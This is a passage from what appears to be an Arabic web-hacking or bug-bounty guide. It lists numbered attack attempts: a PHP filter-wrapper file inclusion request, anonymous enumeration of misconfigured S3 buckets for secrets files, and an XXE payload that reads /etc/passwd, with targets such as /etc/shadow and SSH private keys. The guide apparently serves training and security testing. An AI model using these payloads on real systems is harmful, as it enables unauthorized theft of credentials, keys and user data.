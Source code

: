 - إعادة تضمين الملف مع shell:
```http
GET /page.php?page=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
```

### 📌 النتيجة:
- قراءة بيانات الجلسة أو تنفيذ تعليمات PHP.

---

## 🧪 المحاولة #5: فحص AWS S3 Buckets وغيره من Cloud Storage

### ⚙️ الفكرة:
البحث عن حاويات تخزين سحابية تم تكوينها بشكل خاطئ (Misconfigured).

### ✔️ كيف تكتشف:
```bash
aws s3 ls s3://bucket-name --no-sign-request
```

> أو باستخدام أدوات مثل:
- [https://buckets.grayhatwarfare.com](https://buckets.grayhatwarfare.com)
- `s3scanner`

### 💥 الاستغلال:
- رؤية ملفات مثل:
  - `users.csv`
  - `config.json`
  - `secrets.env`

### 📌 النتيجة:
- تسريب بيانات المستخدمين أو tokens API.

---

## 🧪 المحاولة #6: استخدام XXE لاكتشاف ملفات داخل النظام

### ⚙️ الفكرة:
بعض التطبيقات تقبل XML ويمكن استغلال ذلك لقراءة ملفات محلية.

### ✔️ كيف تكتشف:
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>
```

### 💥 الاستغلال:
- قراءة ملفات خاصة مثل:
  - `/etc/shadow`
  - `/home/user/.ssh/id_rsa`
  - `/var/www/config.php`
